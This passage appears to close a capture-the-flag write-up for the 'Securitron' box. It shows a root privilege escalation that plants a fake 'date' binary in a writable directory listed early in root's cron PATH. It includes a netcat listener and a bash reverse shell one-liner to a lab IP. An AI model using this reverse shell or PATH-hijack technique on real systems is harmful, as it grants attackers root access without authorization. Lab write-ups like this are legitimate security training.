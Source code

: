 Checking where the `date` binary is located, we find it at `/usr/bin/date`.

![alt text](../../assets/images/securitron/image-37.png)

Since the crontab PATH for root is configured as follows:

`PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/home/securitybot/.local/bin:/usr/bin:/sbin:/bin`

we can create a `date` binary in the `/home/securitybot/.local/bin` folder, which is listed before `/usr/bin`. This will cause the scheduled task run by the root user to execute our binary instead.

We start listening with netcat on port 12345.

```bash
nc -lvnp 12345
```

We create the `/home/securitybot/.local/bin/date` file on the server with a reverse shell and give it execution permissions:

```bash
echo "bash -c '/bin/bash -i >& /dev/tcp/10.0.2.15/12345 0>&1'" > /home/securitybot/.local/bin/date
chmod +x /home/securitybot/.local/bin/date
```

We wait a minute and get a root shell. Now, we can read the flag file.

![root flag](../../assets/images/securitron/image-38.png)

Congratulations, you have completed the Securitron CTF.